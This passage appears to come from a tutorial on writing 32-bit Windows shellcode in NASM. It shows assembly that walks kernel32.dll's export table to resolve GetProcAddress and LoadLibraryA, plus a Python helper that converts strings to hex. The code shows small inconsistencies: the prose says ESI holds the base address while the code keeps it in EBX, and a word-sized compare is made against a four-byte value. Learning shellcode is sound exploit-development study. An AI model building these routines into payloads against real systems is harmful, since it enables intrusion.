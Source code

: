 ```nasm
lodsd                    
mov ebx, [eax + 0x10]    
mov edi, [ebx + 0x3c]    
add edi, ebx             
mov edi, [edi + 0x78]    
add edi, ebx             
mov esi, [edi + 0x20]    
add esi, ebx             
xor ecx, ecx 
```

We now have the base address of `kernel32.dll` in ESI as per usual. 

### Getting Address of `GetProcAddress`
```nasm
Get_Function:
 
inc ecx                              
lodsd                               
add eax, ebx                         
cmp dword [eax], 0x50746547        ; GetP
jnz Get_Function
cmp word [eax + 0xa], 0x73736572   ; ress
jnz Get_Function
mov esi, [edi + 0x24]                
add esi, ebx                         
mov cx, [esi + ecx * 2]              
dec ecx
mov esi, [edi + 0x1c]                
add esi, ebx                         
mov edi, [esi + ecx * 4]             
add edi, ebx                         
```

We now have the address of `GetProcAddress` stored in EDI. One thing to note here is that `GetProcAddress` stores the address of the retrieved function/library inside of EAX. 

### Locating `LoadLibraryA` Address
```nasm
; use GetProcAddress to find LoadLibraryA
xor ecx, ecx
push ecx
push 0x41797261   
push 0x7262694c
push 0x64616f4c
push esp
push ebx
call edi
```

We have to push the string `LoadLibraryA` onto the stack first. I used my [ascii to hex converter python script](https://github.com/h0mbre/AWE-OSEE/tree/master/Ascii_to_Hex), which I got from @NinjaParanoid. The script is this:
```python
import textwrap
import binascii
import sys

function_name = sys.argv[1]

print textwrap.wrap((binascii.hexlify(function_name[::-1]).decode()), 8)
```
This outputs the exact `DWORD` values to push onto the stack. 

